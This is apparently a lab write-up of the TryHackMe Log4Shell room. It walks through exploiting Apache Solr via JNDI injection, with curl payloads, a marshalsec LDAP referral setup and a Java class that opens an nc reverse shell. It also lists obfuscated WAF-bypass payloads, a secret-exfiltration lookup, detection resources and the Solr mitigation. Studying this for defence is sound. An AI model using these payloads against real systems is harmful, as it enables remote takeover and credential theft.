

# Log4j
https://tryhackme.com/room/solar

## What makes it dangerous?
1. easy to exploit
2. abundant
3. gives remote code execution

## What features are exploited in Log4j?
1. JNDI
2. Support for message lookups

## What are the apps affected so far?
https://github.com/YfryTchsGD/Log4jAttackSurface

## what are more resources to check on the vuln?
https://www.huntress.com/blog/rapid-response-critical-rce-vulnerability-is-affecting-java
https://log4shell.huntress.com/
https://www.youtube.com/watch?v=7qoPDq41xhQ

## investigating the apache solr logs
`/vas/solr/logs/solr.log`


## by viewing the logs:
`2021-12-13 04:01:58.351 INFO  (qtp1083962448-23) [   ] o.a.s.s.HttpSolrCall [admin] webapp=null path=/admin/cores params={} status=0 QTime=0`
## we notice that there's an HTTP solr call in the path `/admin/cores` and the params are empty braces where user input can be injected and evaluated as code

## Example statments that can be evaluated:
- `${sys:os.name}`
- `${sys:user.name}`
- `${log4j:configParentLocation}`
- `${ENV:PATH}`
- `${ENV:HOSTNAME}`
- `${java:version}`

## the payload however leverages the JNDI (Java Naming & Directory Interface) which can access external resources
`{JNDI:LDAP://<ATTACKERCONTROLLEDHOST>}`

## Question is: what location can we use this payload?
## the answer is: ANYWHERE that's logged by log4j
- Input user/password login forms
- Data entry points in the application
- HTTP Headers like User-Agent, X-Forwarded-For or other headers

*In short: any place for user-supplied data*

## More information on JNDI Attack vector
https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE.pdf

## Checking if the vuln exists, we run a curl
`curl 'http://<VICTIM>:8983/solr/admin/cores?edelo=$\{jndi:ldap://<LHOST>:<LPORT>\}'`
## we get a connection back on our listening port


## the response was ugly because our netcat listener wasn't a proper **LDAP handler**
## will use a special server called **LDAP Referral Server** (https://github.com/mbechler/marshalsec) to redirect the request from the victim machine somwhere else where we host our **Mailicous Java Code**

## Steps should be as below:
1. `${jndi:ldap://<ATTACKER-IP>:1389/Resource}` --> request to our LDAP referral server
2. LDAP server *bounces* the request over to our http server hosting the java malicious `.class` file
3. class file gets executed and we get our reverse shell

## Youtube video of the attack demo
https://youtu.be/OJRqyCHheRE

## Building the LDAP Referral server
1. update apt
`apt update -y`
2. install maven
`apt install maven -y`
3. clone marshalsec repository
`git clone https://github.com/mbechler/marshalsec.git`
4. build the **martialsec** utility:
`mvn clean package -DskipTests`

## we now start the ldap server taking note to set the variables to point to our HTTP server where the evil payload will be hosted :D
`java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://<ATTACK-IP>:8000/#Exploit"`
## The server should be listening like the screenshot below:


## we will create a java payload that sends a reverse shell back to our attacker machine
## code is as below:
```
public class Exploit {
    static {
        try {
            java.lang.Runtime.getRuntime().exec("nc -e /bin/bash <ATTACKER-IP> <ATTACKER-PORT>");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```
## we save the file as `Exploit.java`
## **The above step is importatnt** to make sure the payload matches what we specified in the LDAP referral server:
`marshalsec.jndi.LDAPRefServer "http://<ATTACK-IP>:8000/#Exploit"` <-- note the `#Exploit` name

## we proceed to install java development kit
`apt install default-jdk -y`

## then move on to compile the `Exploit.java` file to get the malicious `Exploit.class` file
`javac Exploit.java -source 8 -target 8`

## we then set up our python http server to host our payload
`python3 -m http.server`

## and we invoke our curl
`curl 'http://<VICTIM-IP>:8983/solr/admin/cores?foo=$\{jndi:ldap://<ATTACKER-IP>:1389/Exploit\}'`

## The attack chain should be like the below image:


# Detection
## Resources:
1. (local, based off hashes of log4j JAR files) https://github.com/mubix/CVE-2021-44228-Log4Shell-Hashes
2. (local, based off hashes of log4j CLASS files) https://gist.github.com/olliencc/8be866ae94b6bee107e3755fd1e9bf0d
3. (listing of vulnerable JAR and CLASS hashes) https://github.com/nccgroup/Cyber-Defence/tree/master/Intelligence/CVE-2021-44228
4. (local, hunting for vulnerable log4j packages in PowerShell) https://github.com/omrsafetyo/PowerShellSnippets/blob/master/Invoke-Log4ShellScan.ps1
5. (local, YARA rules) https://github.com/darkarnium/CVE-2021-44228
+
## Reddit log4j thread
https://www.reddit.com/r/sysadmin/comments/reqc6f/log4j_0day_being_exploited_mega_thread_overview/

# Bypassing
## the payload we used is a standard and would be blocked by WAFs
## the payload can be obfuscated using all the features of:
1. expansion
2. substituion
3. templating
## that the package makes available

## several bypass techniques include:
- `${${env:ENV_NAME:-j}ndi${env:ENV_NAME:-:}${env:ENV_NAME:-l}dap${env:ENV_NAME:-:}//attackerendpoint.com/}`
- `${${lower:j}ndi:${lower:l}${lower:d}a${lower:p}://attackerendpoint.com/}`
- `${${upper:j}ndi:${upper:l}${upper:d}a${lower:p}://attackerendpoint.com/}`
- `${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://attackerendpoint.com/z}`
- `${${env:BARFOO:-j}ndi${env:BARFOO:-:}${env:BARFOO:-l}dap${env:BARFOO:-:}//attackerendpoint.com/}`
- `${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}}://attackerendpoint.com/}`
- `${${::-j}ndi:rmi://attackerendpoint.com/}`

## noting that the last two techniques use the `rmi://` protocol which is also valid and can be used with the `marshalsec` utility
## additionally, log4j can expand environent variables to exfiltrate dangerous information like `${env:AWS_SECRET_ACCESS_KEY}`

# Mitigation
## Link for Apache Solr: https://solr.apache.org/security.html
## we have to add the below line to `/etc/default/solr.in.sh`
`SOLR_OPTS="$SOLR_OPTS -Dlog4j2.formatMsgNoLookups=true"`
## and restart the Apache Solr Service:
`sudo /etc/init.d/solr restart`

# Other affected Services:
https://www.techsolvency.com/story-so-far/cve-2021-44228-log4j-log4shell/#affected-products
## Including Oracle
https://www.oracle.com/security-alerts/alert-cve-2021-44228.html
## And Sophos
https://www.sophos.com/en-us/security-advisories/sophos-sa-20211210-log4j-rce
## ManageEngine
https://pitstop.manageengine.com/portal/en/community/topic/log4j-ad-manager-plus
## Citrix
https://support.citrix.com/article/CTX335705
## Fortinet
https://www.fortiguard.com/psirt/FG-IR-21-245
## VMware
https://kb.vmware.com/s/article/87068?lang=en_US
## Openfire
https://discourse.igniterealtime.org/t/openfire-4-6-5-released/91108